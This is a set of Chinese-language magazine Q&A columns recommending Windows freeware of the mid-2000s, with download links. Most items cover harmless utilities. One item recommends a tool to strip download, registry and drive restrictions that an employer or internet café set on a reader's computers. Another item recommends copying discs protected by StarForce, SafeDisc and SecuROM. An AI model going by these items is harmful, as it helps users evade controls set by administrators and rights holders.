答：MSN Messenger不像QQ有“群”的功能，要实现给多个好友发送同样信息的方法只有使用第三方软件，这里推荐一款中文免费软件——“MSN好友消息群发工具”。
进入软件后，先在窗口右侧输入好发送的内容，然后在窗口左侧用Shift或Ctrl键选择要发送消息的用户，最后点击“发送”按钮即可。如果你在MSN Messenger中已经为好友进行了分组，那么，你可以从“用户组”下选择整个组进行群发。

软件版本：1.0
软件大小：56KB
软件性质：免费软件
适用平台：Windows 9x/2000/XP
下载地址：http://www.onlinedown.net/soft/37416.htm

拉菜单中先选择好友分组，接着再选择好友，这样选择速度会更快。注意: 使用这款软件需要安装任意版本的FreeShow(下载地址:http://www.onlinedown.net/soft/32385.htm)。软件版本:1.0.0 软件大小:106KB 软件性质:免费软件 适用平台:Windows 9x/2000/XP 下载地址:http://www.onlinedown.net/soft/37424.htm

## 免费的查词工具: 词霸搜索客户端

问: 有时，我想查某个英文单词，又不想安装金山词霸，请问有没有快速的解决方法呢？

答: 其实方法有很多，这里介绍两种方法。方法一: 使用QQ中的“华建小翻”。登录QQ，打开QQ互动空间机器人列表地址 http://sbuddy.qq.com/jiqiren.htm，点击“华建小翻”，将其添加到QQ互动空间面板中，然后打开“华建小翻”聊天窗口，用鼠标点选一种语言翻译，然后输入好要翻译的内容，点击“发送消息”按钮即可。值得一提的是“华建小翻”不仅具有“英汉”及“汉英”功能，还可以进行汉语与日语之间的互翻，并且可以进行短句的翻译，非常方便。方法二: 使用“词霸搜索客户端”。如果你需要一个单词的详细解释，那么你可以试试在线免费查询中、日、英文单词的“词霸搜索客户端”。将软件下载后，进行安装，然后直接输入要查询的单词即可。

软件版本:1.5
软件大小:171KB
软件性质:免费软件
适用平台:Windows 9x/2000/XP
下载地址:http://www.onlinedown.net/soft/37449.htm



## 将你的MM的照片做成哪都看得到的壁纸: DESK PROJECTION

问: 我的MM想让我将她的照片放到一个随时都能看到的位置，请问有没有这样的软件呢？

答: 如果你需要这样的软件，推荐使用DESK PROJECTION。这款软件是一款可以将图片变为透明，并置顶的软件，在使用时，它不会影响你的正常操作，你只会看到一张半透明(此透明度用户可自行修改)的图片显示在屏幕中。将软件下载并解压缩后，直接运行DProj.exe，这时会弹出图片选择窗口，选择好MM的图片即可。如果需要对透明度进行修改，则右击系统托盘中的软件图标，然后选择Opacity(不透明度)项即可;如果想隐藏系统托盘内软件图标，则只要在该图标上右击，选择Disable Icon(关闭图标)项即可。注意想恢复系统托盘图标时，需要将软件所在目录下config.ini文件中的TrayIcon=0改为TrayIcon=-1。

软件版本:1.0.6
软件大小:251KB
软件性质:免费软件
适用平台:Windows 9x/2000/XP
下载地址:http://vazagi.homepage.dk/DPv106.zip


## 重装输入法不再难: 输入法卸载清理工具

问: 我在安装极点五笔时，出现了错误，之后就无法安装了，也不能卸载，请问应该怎么解决呢？

答: 这个问题的确很麻烦，只有完全卸载才能重新安装，这时又无法卸载，那么只有求助于第三方软件了，比如下面介绍的“输入法卸载清理工具”。这款软件可以卸载系统自带的微软拼音输入法2.0/3.0、微软新注音输入法、微软新仓颉输入法98b(这些输入法是基于Windows XP而设计的，不能保证其他系统可正常卸载)，还有拼音加加(原版及增强版)、智能ABC输入法5.x、紫光拼音输入法及极点五笔4.x等输入法。将软件下载后，解压缩，然后运行IME_CleanUp_04.exe，并按提示进行操作即可。

软件版本:0.51
软件大小:72KB
软件性质:免费软件
适用平台:Windows 9x/2000/XP
下载地址:http://www.newhua.com/cfan/200505/xfxzz.rar



## 让你的CPU按需而用: Pentium 4 MagicSpeed

问: 听说现在的CPU消耗资源都很多，请问有没有可以根据需要不同，让CPU自动变速的软件？这样可以节省资源消耗。

答: 让CPU降频的确可以减少资源消耗，用一些软件就能完成。我们推荐的这款软件Pentium 4 MagicSpeed就是一款很不错的Intel CPU自动变频工具，最重要的是它占用资源很小，而且使用非常简单。将软件下载后解压缩运行，软件就会在系统托盘产生图标，右击该图标，在菜单中选择Auto Speed(自动变速)，这样CPU就会根据系统占用的资源，实时减少工作频率，以达到节省资源的目的。另外在菜单中选择其他如Fixed Performance 75%/50%/25%项，可强制使用CPU的75%/50%/25%资源。另外，双击系统托盘图标，可以打开软件主窗口。注意，该软件不适合主频低于1.5GHz的P4使用者，同时这款软件也不支持AMD Athlon用户及评测爱好者。

软件版本:2.3
软件大小:78KB
软件性质:免费软件
适用平台:Windows 9x/2000/XP
下载地址:http://www.newhua.com/cfan/200505/p4msrc.zip



## 迅雷下载 随你选择: 迷你迅雷

问: 我听说迅雷下载不错，速度很快，但也有高手不屑用于它，请问有没有两全其美的方法呢？

答: 推荐你使用最新的迷你迅雷，它的特点就是简单、快捷、高速，其下载界面就是IE的标准窗口，而且对MP3资源进行了特别优化，而且体积也很小，非常便于下载。将软件下载，进行安装后，以后在IE中下载文件时，只要右击下载链接，选择菜单中的“使用迷你迅雷”下载项即可。非常简单，方便。

软件版本:迷你版
软件大小:554KB
软件性质:免费软件
适用平台:Windows 9x/2000/XP
下载地址:http://210.22.13.83:8080/download.htm



## 第五期 轻松简转繁: 简繁互转小工具

问: 我在有些网站上看到的繁体文字，想转为简体文字，我用一般的方法根本无法转换这些文字，请问用什么工具可以实现它们的互转呢？

答: 简繁互转的工具及方法我们已经介绍过多次，但多数技巧或工具只是针对BIG5码及GBK码的互转。其实GBK码也分为简体和繁体，但一般的软件是无法完成GBK码的简繁互转，而我们这里的“简繁互转小工具”可以为你解决这个问题。进入软件后，首先将你的文字粘贴至窗口上侧的文本框中，然后设置“GBK繁→简”，再选择“将结果拷贝至剪贴板”按钮即可。另外如果你同时在软件中勾选“监视剪贴板”及“自动将结果拷到剪贴板”两项，那么软件会自动将剪贴板中的文字进行转换后，再送到剪贴板中，在你进行大量的文字转换时可以使用此功能。除此之外，软件还支持文件的批量转换，只要设置选好文件，就可以“转换”了。

软件版本:1.0
软件大小:866KB
软件性质:免费软件
适用平台:Windows 9x/2000/XP
下载地址:http://www.onlinedown.net/soft/37638.htm



## 第六期 硬盘修复控制台: DrvCareXP

问: 看了上期的《硬盘，我要精心呵护你》后，我也想对硬盘进行一下全面整理，可是非常麻烦，需要一项一项操作，请问有没有全面自动的解决方案呢？

答: 推荐你使用DrvCareXP，它可以自动、全面地养护硬盘。有了它的帮助，你可以很轻松地让电脑自动完成清理硬盘空间，碎片整理、磁盘扫描等操作。软件运行需要Microsoft .NET Framework 1.1(下载地址:http://download.microsoft.com/download/7/b/9/7b90644d-1af0-42b9-b76d-a2770319a568/dotnetfx.exe)。

进入软件后，在窗口左侧勾选好要整理的，然后在右侧选择要进行的操作，分别为Disk Cleanup(磁盘清理)、Defragmentation(磁盘碎片整理)、ScanDisk(扫描磁盘)，然后点击Run即可运行了。而当你点击Schedule后，在弹出的菜单中可以制定计划任务，选择一个每周运行的时间让软件自动帮你整理。另外，使用自带的“计划任务”也可以直接添加和程序文件，进行更准确的时间设置，具体方法可以参考软件的帮助文件。



软件版本:4.2
软件大小:717KB
软件性质:免费软件
适用平台:Windows XP
下载地址:http://www.lexundesigns.com/LexunFreeware/Apps/DrvCareXP-Install.zip

## 发一封视频邮件:VEmail

问: 我有摄像头，想给远方的朋友写一封带视频邮件的信，请问我应该用什么软件呢？

答: 你可以使用一些视频抓取软件将摄像头画面保存下来，然后做为附件发送，但如果经常这样就有点麻烦了，其实微软已经为我们提供了一个直接发送视频邮件的Outlook 2003插件。

软件下载并安装后，打开Outlook 2003，这时在工具栏内点击Video Message按钮后，就可以打开摄像头截取窗口，开始记录了。完成后就会自动做为附件发送了。



软件版本:1.1
软件大小:2016KB
软件性质:免费软件
适用平台:Outlook 2003
下载地址:http://download.microsoft.com/download/3/a/a/3aab31b6-1ec9-42a3-b626-27259873a691/VEMAIL.EXE

## 了解英语谚语的写法:英语格言警句

问: 我想了解英文谚语Children should be seen but not be heard 一句的意思，另外以后遇到这种英文谚语有没有可以查到的地方？

答: 其实你可以直接用Google或百度等搜索引擎直接搜索到这些英文谚语的含义。这里再为你推荐一款名为“英语格言警句”的软件，它可以帮你快速查找到相应的格言。软件使用非常简单，选择菜单中的“数据→查找”就可以快速找到所需的英语谚语(或其中文含意)了。



软件版本:1.2
软件大小:1291KB
软件性质:免费软件
适用平台:Windows 9x/2000/XP
下载地址:http://www.onlinedown.net/soft/38017.htm

## 双击就能运行Java小程序:JAVA LAUNCHER

问: 我看了几期《电脑爱好者》连载的《Java咖啡馆》，现在也开始学习Java了，请问有没有能够快速运行Java程序的方法呢？

答: Java程序运行起来的确有点小麻烦，不过可以通过手动的方法来解决，如果你觉得麻烦，那么可以试试JAVA LAUNCHER。只要安装它后，你在“资源管理器”中双击CLASS格式的Java文件就可以直接运行了。它的好处不仅如此，你甚至可以用它直接将Java源代码编译为Windows下的可执行程序，非常方便(使用软件时需安装JDK，下载地址:http://java.sun.com/j2se/1.4.2/download.html)。

将软件下载后，就会自动与CLASS文件关联，双击后，就可以运行程序。另外，点击“开始”菜单中的软件项，打开软件主界面，然后在Main class file(主程序)中设置好源代码文件，同时Output file(输出文件)中设置好输出的文件后，就可以将源代码转为Windows文件了。



软件版本:2.5
软件大小:772KB
软件性质:免费软件
适用平台:Windows 9x/2000/XP
下载地址:http://www.syncedit.com/download/others/javalauncher.zip

## 你的硬盘还好吗:HDDlife

问: 我经常通宵的用BT下载，有很多人说这会影响硬盘的寿命，请问有什么软件可以提前告诉我硬盘的寿命呢？如果快坏时我希望能够及时备份。

答: 试试HDDlife吧，这款软件可以每隔一段时间检查你的硬盘状况，从而分析出硬盘的状态，如果已经状况已经很差，那么建议你赶快备份数据到其他硬盘中。

软件安装结束时，就会弹出主窗口，并显示出每块硬盘的状况及温度(需硬盘支持S.M.A.R.T.技术，一般新买的硬盘都有这个技术)，这样你可以随时知道你的硬盘状况如何，从而不必担心以后硬盘出问题前没有及时备份了。

软件版本:N/A
软件大小:1458KB
软件性质:免费软件
适用平台:Windows 2000/XP
下载地址:http://www.hddlife.com/files/HDDlife%201.0.14.msi



## 让你的nVIDIA显卡飞起来:Coolbits

问: 我想超频我的nVIDIA显卡，请问有什么方法？

答: 这里我们推荐了个最简单的方法，只要双击两下，就可以让你的nVIDIA显卡控制界面增加超频选项。

将软件下载后，双击运行，接着右击桌面空白处，依次选择“属性→设置→高级”，然后点击显卡型号标签，如GeForce FX 5600。这时你在“时钟频率设置”项下就可以进行“超频”了。注意修改后一定要多测试几次，以保证其稳定性。



软件版本:N/A
软件大小:1KB
软件性质:免费软件
适用平台:Windows 9x/2000/XP
下载地址:http://www.newhua.com/cfan/200506/coolbits.rar

## 第七期 视频文件巧合并:MediaJoin

问: 我想将几个MP3文件合并为一个文件，请问应该怎么做呢？

答: 音频文件合并的方法有很多，比如直接用COPY命令，或是使用WinRAR的压缩功能等等，不过这都不方便控制顺序，这里我们为你介绍一款专门用来合并音、视频文件的软件——MediaJoin，有了这款免费软件，多种格式的媒体文件都可以合并了。

打开软件后，先在Media Type(媒体类型)中选择要转换的媒体格式，如果要合并音频文件，选择Audio，要合并视频文件则选择Video，再点击Add按钮，在文件选择窗口中使用Shift及Ctrl键选择需要添加的媒体文件。完成后，在Output Format(输出格式)下拉菜单中选择好输出媒体文件的格式，最后点击Join按钮，根据需要设置好码率等项后，就可以进行文件合并了。另外，如果文件的顺序不对，可以通过Move Up及Move Down按钮进行调节。



软件版本:2.0
软件大小:3077KB
软件性质:免费软件
适用平台:Windows 9x/2000/XP
下载地址:http://www.audiovideosoft.com/download/setup_mj.exe

## 制作个性化MSN Messenger头像:AveAvatarCreator

问: 我想制作一个特殊的MSN Messenger个性化头像，请问有没有这方面的软件推荐?

答: 推荐你使用AveAvatarCreator，它可以通过不同的发型、脸型、衣服的组合制作个性化的MSN Messenger头像。

打开软件后，点击Element used(可用元素)列下不同的按钮，这时在预览区可以看到不同的组合效果，如果需要可以通过X、Width、Y、Height列来设置不同元素的位置、宽度及高度。在Label Text框中输入文字，比如你的昵称等等，最后点击Save Avatar按钮就可以将图片保存为PNG格式，并在MSN Messenger中使用了。如果你想在QQ中使用，可以将Final Width(最终宽度)及Final Height(最终高度)均设置为32即可。



软件版本:N/A
软件大小:467KB
软件性质:免费软件
适用平台:Windows 9x/2000/XP
下载地址:http://www.newhua.com/cfan/200507/aveatar.zip

## 图片快速找不同:TheCompressorator

问: 我在玩游戏时，打开了一个特殊效果，请问我应该用什么软件来知道这个效果是否打开了呢?

答: 建议你在游戏中同一位置进行截图(可能要使用SnagIt等专业截图软件或游戏中自带的截图功能)，然后对比两张图片，找到不同之处，就可以知道特效是否打开了，从而还可以判断出显卡是否支持该特效。要对比两张图片不同，仅靠肉眼是很麻烦的，所以我们通常使用TheCompressorator，这款软件的主要功能就是分析对比两张图片，并找出它们不同之处。

打开软件，选择菜单中的File→Compare Images(文件→对比图片)，然后分别选择两张需要对比的图片，这时在软件窗口中就会显示出需要对比的图片，以及对比的结果。



软件版本:1.23.1049
软件大小:2.57MB
软件性质:免费软件
适用平台:Windows 9x/2000/XP
下载地址:http://www2.ati.com/developer/TheCompressorator.zip

## 可视化的任务切换:TaskSwitchXP

问: 我听说有一款软件可以增强Windows XP的Alt+Tab功能，在切换任务的同时还可以看到每个进程当前的状态窗口，请问是有这款软件吗?

答: 的确有这样一款软件，名为TaskSwitchXP。

解压缩软件后，运行其中的TaskSwitchXP.exe，启动软件，这时在系统托盘内会显示软件图标。再按下Alt+Tab，就可以看到新的任务切换界面，在窗口左侧就可以看到所选任务的窗口缩略图。如果要设置软件，则执行ConfigTsXP.exe，然后就可以进行多项设置，比如要让软件随系统启动，那么只要勾选General(常规)项下的Autostart TaskSwichXP on system startup(TaskSwichXP自启动)即可，如果同时去除此项下Show TaskSwichXP system tray icon on start(显示TaskSwichXP系统托盘图标)的勾选，就可以让软件在“后台”运行。



软件版本:2.0 Beta 4
软件大小:138KB
软件性质:免费软件
适用平台:Windows XP
下载地址:http://www.newhua.com/cfan/200507/TaskSwitchXP.zip

## 测试防火墙的反劫持能力:Hijack

问: 越来越多的浏览器很容易被“劫持”(如修改默认首页等)，我想试试电脑装的网络防火墙功能是否够强，请问有什么软件可以实现吗?

答: 你可以试试Hijack这款软件，它可以让任何正在运行的程序访问网络，这样你可以测试你的网络防火墙是否能够拦截。同样，如果有不知道是何用途的程序能够不经过验证就访问网络，那你就要注意这个程序是否为能够穿过防火墙的木马程序了。

运行软件后，在弹出窗口下拉菜单中选择系统中正在运行的程序，然后点击OK按钮，这时如果网络防火墙工作正常，就会弹出程序要访问网络的提示，这时你可以根据测试的需要选择通过或阻止程序访问网络。如果阻止程序访问网络后，弹出Internet unavailable的提示，则表示网络防火墙工作正常。



软件版本:N/A
软件大小:394KB
软件性质:免费软件
适用平台:Windows 2000/XP
下载地址:http://sphinx-soft.com/download/hijack.exe

(山东 孤侠)

## 第八期 五步制作出Autorun.inf:AutorunCD Assistant

问: 我在制作一张放进光驱就能自动运行的光盘，请问如何实现呢?

答: 其实光盘能够自动运行都是由于这张光盘上包含有一个名为Autorun.inf的文件，对于初学者，要编写这个文件的确有点麻烦，所以推荐使用免费的AutorunCD Assistant来完成制作。

## 超强的工作搜索软件:JobFinder

问: 我最近在找工作，请问有没有提供求职信息的软件呢?

答: 的确是有这样的软件，名为JobFinder(工作搜索工具)，它可以一次性在前程无忧、中国人才热线、中华英才网等五家热门招聘网站的求职信息中进行搜索，让你一次就可以看到所有的信息，非常方便。

进入软件后，点击工具栏最左侧的按钮，打开“搜索选项”窗口，在窗口左侧分别选好五个不同的搜索网站，然后再设置好“工作地点”、“职能”、“行业”及“发布日期”项，以便让最终的搜索结果更准确。完成后，回到主界面，在“关键字”栏中输入要应聘的职位，然后点击“开始搜索”按钮，稍候就可以看到搜索的结果信息了。



软件版本:3.21
软件大小:746KB
软件性质:免费软件
适用平台:Windows 9x/2000/XP
下载地址:http://www.onlinedown.net/soft/38726.htm

## 保护你的液晶显示器:LCD Saver Utility

问: 我听说现在的屏幕保护对于液晶显示器不会有什么保护作用，如果是真的，那又该如何保护液晶显示器呢?

答: 的确有这样的，现在的屏幕保护主要是针对一般的CRT显示器，作用主要是防止屏幕的“单点灼伤”(由于长时间固定阴极射线造成)，但对于液晶显示器基本无效，所以一般使用直接关闭显示器的方法来保护它。不过每次关闭后，还要再手动打开，非常麻烦。但有了LCD Saver Utility就能更轻松地解决这个问题。

## LCD Saver Utility使用方法非常简单

LCD Saver Utility 使用方法非常简单，只要将下载的压缩包解压缩后，运行其中的LCD-Svr_install.vbs，就完成安装了，你可以在“显示属性”中的“屏幕保护程序”选项卡看到并运行它，如果想快速运行，那么直接使用 Ctrl + Alt + S 组合键即可。

软件版本:2.1
软件大小:20KB
软件性质:免费软件
适用平台:Windows 2000/XP
下载地址:http://storage.gate2.net/LCD-Svr.zip

## 备份加密光盘:GameJack

问:我有一张加密的光盘，由于盘片磨损很厉害，现在想复制一张，请问该怎么做呢？

答:推荐你用 GameJack，它具有虚拟光盘、复制加密光盘及刻录光盘三种功能，组合使用这三种功能，即使是 StarForce、SafeDisc 和 Securom 等难以复制的光盘都可以备份成功。而且这款软件的功能连强大的 CloneCD 及 Alcohol 120% 也自愧不如。最重要的是它还有汉化版，让你可以轻松上手使用。
如果要复制加密光盘，在窗口左侧选择“增强复制”，接着在窗口右侧设置好“源驱动器”及“目标驱动器”，点击“开始”即可。
若要将加密的文件复制到硬盘上，则可在窗口左侧选择“复制到硬盘”即可。
GameJack 还内置了很多工具，如可以查看加密类型的“探测保护类型”，制作光盘封面的“标签编辑器”等。该软件既可以当作光盘刻录软件，又是一款不错的备份加密光盘的软件。

软件版本:4.0
软件大小:7.24MB
软件性质:共享软件(14天使用限制)
适用平台:Windows 9x/2000/XP
下载地址:http://nj.onlinedown.net/soft/6316.htm
汉化地址:http://nj.onlinedown.net/soft/23692.htm

## 账号申请全自动:超级自动注册申请王

问:我是刚刚上网没多久的菜鸟，想为自己申请一个QQ号及一个邮箱，为弟弟申请一个浩方的账号，为爸爸在联众注册一个ID，请问有没有简单的软件可以将这些工作一次性完成呢？

答:推荐你使用“超级自动注册申请王”。这款软件可以自动识别并填写注册表单，实现全自动申请。
首先，在软件主窗口左侧的“选择申请项目”中选择需要申请的项目，然后在窗口右侧选择具体的申请项，这时根据所选项目不同，就会弹出不同的注册窗口，填好后，点击“注册”即可。

软件版本:1.6
软件大小:2.85MB
软件性质:共享软件(有部分高级功能无法使用)
适用平台:Windows 9x/2000/XP
下载地址:http://www.skycn.com/soft/21992.html

## 第九期

## 快速打开注册表指定键:注册表快捷方式

问:我经常要修改注册表中的键位，请问有没有可以快速打开注册表指定项的方法？

答:如果只是简单应用，并且使用的是 Windows 2000 以上版本的操作系统，直接使用“注册表编辑器”中的“收藏夹”功能就可以解决。如果需要经常使用，则推荐使用软件“注册表快捷方式”，顾名思义，它可以在“注册表编辑器”中快速定位至指定键值。
打开软件后，从下拉菜单中选择好要打开的键值，软件就会自动打开“注册表编辑器”，并移至相应位置。点击“添加快捷方式”或“将剪贴板中的快捷方式添加到软件中”可以为软件添加“注册表快捷方式”，以便下次快速选取了。

软件版本:3.0 Final
软件大小:86KB
软件性质:免费软件
适用平台:Windows 9x/2000/XP
下载地址:http://nj.onlinedown.net/soft/36408.htm

## 强制禁止打游戏:不准玩游戏

问:我想让孩子平常不要随便玩游戏，为防止万一，请问有没有可以限制游戏运行的软件呢？

答:我们为你推荐一款名为“不准玩游戏”的软件，这款软件可以根据时间来限制游戏运行，而且除了软件已经内置的禁止运行的游戏外，用户还可以自行添加限制的游戏。利用软件的记录功能，可以查看使用者玩过的游戏。
打开软件后，先设置好密码，再“启动服务”，接着点击“限制”按钮，勾选好禁玩的游戏，同时设置好“禁玩时间段”，最后点击“应用”即可。如果你需要查看在非限制时间内玩过的游戏，那么可在“常规”按钮下点击“查看记录”按钮即可。

软件版本:2005 VIII.2
软件大小:858 KB
软件性质:共享软件(7天使用限制)
适用平台:Windows 9x/2000/XP
下载地址:http://nj.onlinedown.net/soft/38143.htm

## 在电脑上作画:Alias SketchBook Pro

问:我刚买了一个便宜的手写板，附带的软件功能不多，现在想在电脑上画图，请问有什么软件可以实现呢？

答:不管你是否使用手写板绘画，哪怕是用鼠标画画，也建议你去试试 Alias SketchBook Pro。它是一款专门用于绘画的软件，具有铅笔、原子笔、马克笔等效果，非常不错。
进入软件后，点击左下角不同按钮，可以显示出不同的子按钮。软件最大的特色就是像 Photoshop 一样引入了图层概念，可以通过点击左数第二个按钮，选择“图层”子按钮，打开图层窗口，在此窗口上按住左键，就可以进行新建、合并、复制图层等操作了。

软件版本:1.1.1 汉化版
软件大小:6396KB
软件性质:免费软件
适用平台:Windows 2000/XP
下载地址:http://nj.onlinedown.net/soft/29140.htm

## 使用限制轻松破:精锐网吧辅助工具

问:因为工作环境，我可用到的电脑都设置了下载限制，还有些隐藏了硬盘分区盘符，无法使用注册表等，请问解除这些限制有什么好方法吗？

答:你可以试试“精锐网吧辅助工具”，就像它的名字，这款软件是专门清除网吧常见限制的软件，当然也适用于你的情况。“精锐网吧辅助工具”不仅可以解除网吧中常见的限制，还可以进行进程、启动项管理，控制面板、系统工具的调用；除此之外，还有QQ刷等级及发送邮件等附加功能。
打开软件后，点击“限制恢复”标签，就可以在其中点选要解除限制的按钮了。另外，如果你觉得有必要，那么可以勾选“灰色按钮激活”来解除一些原本无法实现的功能。

软件版本:4.0
软件大小:1.7MB
软件性质:免费软件
适用平台:Windows 9x/2000/XP
下载地址:http://www.newhua.com/cfan/200509/wbfz.rar

## 让MSN的表情动起来:MSN桃源助手

问:我想使用 MSN Messenger 的动态头像，请问可不可以实现呢？

答:最新的 MSN Messenger 7.0(以下简称 MSN)，已经实现了支持动态头像的功能，但此功能暂时还是收费的，只有通过软件来解决这个问题了，这里推荐“MSN桃源助手”。
首先，要确认你的 MSN 版本为 7.0732 或更高。然后，运行“MSN桃源助手”，它就会自动将动态头像的功能添加到 MSN 中。你可以在 MSN 的“工具”菜单下找到“桃源助手”的选项，进行相关设置。之后，就可以在 MSN 中选择并使用丰富的动态头像了。

软件版本:1.6
软件大小:550KB
软件性质:免费软件
适用平台:Windows 9x/2000/XP
下载地址:http://www.skycn.com/soft/21992.html

## 中文版的SlideBar:MSN幸运虫Luckbug版通讯工具

问:我知道有一款软件名为 SlideBar，它内置了时钟、新闻浏览、媒体播放等功能，只是这款软件为英文软件，请问有没有中文版的呢？

答:现在的确有这样的软件了，它名为“MSN幸运虫 Luckbug版通讯工具”，这款目前兼容 MSN Messenger（以下简称 MSN）的即时通讯工具，运行后就像 SlideBar 一样，出现在屏幕右侧，这时你可以通过右键菜单中的“添加面板”或“移除面板”来添加或移除面板。在这些面板中，比较特别的就是 MSN 的面板，只要你登录了 MSN，所有的在线好友都会直接显示出来，你可以快速地和 MSN 好友聊天。而且在软件的后续版本中还会添加 Q Q、Yahoo、Luckbug 三种通讯协议，这样所有的好友全部集中在一起，非常方便。软件其他功能的使用方法与 SlideBar 类似，比如右击任意面板都可以通过“面板属性”对该面板的设置进行调整。另外，软件的“新闻中心”读取较慢，在使用时，可能要多等一段时间。

软件版本:0.9.9
软件大小:5.11MB
软件性质:免费软件
适用平台:Windows 9x/2000/XP
下载地址:http://luckbug.com/lbdsetup.exe

## 计算子网掩码的小工具:IPSubnetter

问:我最近在进行网络工程师的相关培训，在计算子网掩码方面一直不是很熟练，请问有没有这方面的软件可以帮助我呢？

答:计算子网掩码的确非常麻烦，而这又是从事网络工作、管理大型局域网所必备的知识。所以简单的计算出子网掩码就成了一个很大的问题。要解决这个空缺问题我们推荐使用 IPSubnetter，它是一款专门用来计算子网掩码的软件。

软件版本:1.0
软件大小:16KB
软件性质:免费软件
适用平台:Windows 9x/2000/XP
下载地址:http://www.newhua.com/cfan/200510/subnet.rar

## 图标转换轻轻松松:Avelconifier

问:我有很多图片，想将它们转换为图标，请问如何制作呢？

答:关于制作图标，本刊在2005年第7期的《轻轻松松学做 XP 风格图标》中已经介绍过使用 IconWorkshop，将 PNG 格式图片转换为 ICO 图标的方法，这里再介绍一款使用简单，可以快速上手的图标转换绿色软件——Avelconifier。将软件下载，并解压缩，运行 Avelcon.exe，打开软件，你会看到左右两个窗格。将 PNG、JPG、GIF 或 BMP 等格式的图标拖拽至右侧的窗格，这时软件进行图标转换，并在左侧窗格中显示结果。右击左侧窗格，还可勾选最终生成图标的各种尺寸。最后，将左侧窗口生成的图标拖拽至保存图标文件的文件夹中即可完成转换。另外右击软件的标题栏，你还可以为软件更换多种皮肤，非常的方便。

软件版本:N/A
软件大小:667KB
软件性质:免费软件
适用平台:Windows 9x/2000/XP
下载地址:http://www.newhua.com/cfan/200510/aveicon.zip

## 在桌面上显示日历及天气预报:雪狐日历精灵

问:我想找一款在桌面可以显示日历及天气预报信息的软件，请问有这样的软件？

答:推荐你使用“雪狐日历精灵”，这款免费软件可以说是目前最受欢迎的桌面日历软件。将软件下载，安装并运行软件(注意，在安装时会默认安装中文域名，如不需要，请手动去除勾选)。这样在桌面上就会出现一个漂亮的日历了，将它移动到适当的位置，然后右击系统托盘软件图标，选择“鼠标穿透”及“嵌入桌面”；接着，再右击系统托盘图标，通过“皮肤”项来选择一款自己满意的皮肤（Default 项中的部分皮肤可以显示各种节日）。软件默认的天气预报显示的是“北京”，可以通过系统托盘图标右键菜单中“系统设置→网络设置”下的“所在城市的名称”修改为其他城市。如果你在使用 MyMPC 等播放器全屏播放视频时，如果总是自动跳出全屏，那么可以去除软件“系统设置”窗口中的“基本设置”项的“自动整理内存”。软件内置的很多皮肤都是单独显示天气预报或单独显示日历，这就需要同时打开两个“雪狐日历精灵”，要实现此功能必须要使用的参数，当需要打开第二个“雪狐日历精灵”时，只要在“开始→运行”中输入“C:\Program Files\SnowFox\CalSprite\CalSprite.exe” MultiInstance(请自行修改软件安装路径)即可打开第二个甚至更多的“雪狐日历精灵”了。为了减少系统托盘内的软件图标，去除“系统设置”窗口下“基本设置”项中“显示系统托盘图标”的勾选即可。当你需要再设置软件时，只要再运行一次“雪狐日历精灵”，系统托盘就会出现图标了。如果你觉得软件内置的皮肤还不够，那么可以从 http://www.newhua.com/cfan/200510/snowfoxskin.rar 下载更多的皮肤，然后将解压缩后的文件保存到软件安装的 Skins 目录下即可。

软件版本:1.51
软件大小:4099KB
软件性质:免费软件
适用平台:Windows 2000/XP
下载地址:http://www.onlinedown.net/soft/30945.htm

## 为桌面增加小时钟:雪狐迷你钟(MiniClock)

问:我希望在桌面上做一个漂亮的时钟，请问有什么软件？

答:“雪狐迷你钟”这款时钟软件非常漂亮，你可以自定义使用各种图片作为表盘。安装并运行软件后，你就可以看到漂亮的时钟了。右击系统托盘图标，选择“系统设置”，在“桌面背景”中就可选择各种皮肤。如果你没有你喜欢的皮肤，那么从 http://www.snowfox.com.cn/Download/MiniClock_Other_Skins.rar 能下载更多的皮肤，然后将这些皮肤解压缩至软件安装目录下的 Skins 子目录中即可。在使用这款软件时，如启用了“鼠标穿透”及“嵌入桌面”功能，同时把“系统设置”窗口中的“系统启动时运行”及“显示系统托盘图标”勾选了，那么系统托盘将不会显示图标，这时需要用“记事本”将软件安装目录下的 MiniClock.ini 文件打开，把 ShowTrayIcon=0 改为 ShowTrayIcon=1 即可。

软件版本:1.2
软件大小:2758KB
软件性质:免费软件
适用平台:Windows 2000/XP
下载地址:http://www.onlinedown.net/soft/32172.htm

## 使用任意图片制作个性壁纸的小工具:Walleeye

问:我想将几张照片组合在一起制作一张壁纸，请问用什么软件比较合适？

答:你可以试试 Walleeye，这是一款绿色软件，可以简单快速地将任意图片组合，通过缩放大小、改变透明度等操作，最终得到一张漂亮的壁纸。打开软件，只要从“资源管理器”直接拖拽文件到主程序界面，或是使用复制、粘贴的方法就可以将图片添加到程序窗口中，然后在工具窗口中就可以设置背景色、透明度等项。全部完成后，点击最左侧的按钮“File Menu”，然后选择“Make Wallpaper”项即可修改壁纸。

软件版本:0.01
软件大小:1.2MB
软件性质:免费软件
适用平台:Windows 9x/2000/XP
下载地址:http://www.newhua.com/cfan/200510/walleeye.rar

## 第十一期

## 轻松备份系统中的环境变量:ENV(环境变量精灵)

问:我重装系统后，发现系统中的环境变量都没有备份，请问有没有软件可以备份它呢？

答:建议你使用“ENV(环境变量精灵)”，它可以对系统中的环境变量进行编辑、备份、更新等操作。
将软件下载后，直接用WinRAR将文件解压缩(不用安装)，然后运行程序。
打开软件后，在“环境变量”栏中可以看到系统中的所有环境变量，点击列表中的项目后，就可以在“变量名”及“变量值”处进行修改，最后用“保存”按钮保存即可。如果要备份环境变量，可以点击“全选→备份”按钮，保存成扩展名为ENV的备份文件。重装完系统后，通过“恢复”按钮将备份好的文件恢复即可。

软件版本:2004
软件大小:350KB
软件性质:免费软件
适用平台:Windows 9x/2000/XP
下载地址:http://nj.onlinedown.net/soft/29973.htm

## 随心所欲添加 / 去除马赛克:GMask

问:我有一张有马赛克的照片，请问用什么方法可以去除照片上的马赛克呢？

答:建议你使用GMask来解决这个问题，它可以实现毛玻璃效果、颜色反转及多种马赛克效果的添加或去除，非常方便。这款软件为BIG5码，小编已经将它修改为简体版本，可直接使用。
将软件下载并解压缩后，直接运行，选择菜单中的“档案→开启旧档”，打开需要添加(或去除)马赛克的文件，用鼠标框选添加(或去除)马赛克的位置，点击“加工”菜单下的选项就可以进行添加(或去除)处理了。

软件版本:1.70
软件大小:218KB
软件性质:免费软件
适用平台:Windows 9x/2000/XP
下载地址:http://www.newhua.com/cfan/200511/gmask170cn.rar

## 在注册表中快速搜索指定键值：RegScanner

问:我平常在操作电脑时，经常修改注册表，请问有没有快速定位到某个键值上的工具呢？

答:这里为你推荐你一款不错的免费绿色注册表检索软件——RegScanner。它的检索速度与深度一点不输专业程序。
